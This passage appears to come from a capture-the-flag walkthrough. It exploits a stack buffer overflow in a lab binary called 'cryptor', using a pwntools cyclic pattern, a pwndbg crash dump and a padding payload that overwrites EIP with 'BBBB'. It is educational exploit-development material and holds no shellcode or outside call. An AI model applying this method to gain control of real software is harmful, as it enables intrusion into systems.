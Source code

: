 ```
>>> from pwn import *
>>> cyclic(116)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaab'
```

Run the binary with our 116 byte string.

```
Loaded 53 commands.  Type pwndbg for a list.
Reading symbols from ./cryptor...(no debugging symbols found)...done.
Only available when running
pwn> r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaab zzzz
```

Watch as we get a fancy crash.

```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[----------REGISTERS----------]
 EAX  0x0
 EBX  0x62616164 ('daab')
 ECX  0x0
 EDX  0x0
 EDI  0x636e652e ('.enc')
 ESI  0x0
 EBP  0x61616179 ('yaaa')
 ESP  0xffffcb08 <-- 'baab'
 EIP  0x6261617a ('zaab')
[----------BACKTRACE----------]

Program received signal SIGSEGV
```

Awesome, so we have a crash at offset `zaab` in our `cyclic` string. Let's create our payload by replacing the `zaab` to know that we have surgical control of EIP.

```
>>> shellcode = 'A' * cyclic_find('zaab') + 'BBBB'
>>> shellcode += 'C' * (116 - len(shellcode))
>>> print shellcode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCC
```
If we are correct, we should see `BBBB` in EIP.

```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[-------------------------------------REGISTERS-------------------------------------]
*EAX  0x0
*EBX  0x43434343 ('CCCC')
*ECX  0x0
*EDX  0x0
*EDI  0x636e652e ('.enc')
*ESI  0x0
*EBP  0x41414141 ('AAAA')
*ESP  0xffffcb08 <-- 'CCCC'
*EIP  0x42424242 ('BBBB') <-- w00t w00t!
[-------------------------------------BACKTRACE-------------------------------------]
>   Program received signal SIGSEGV
```
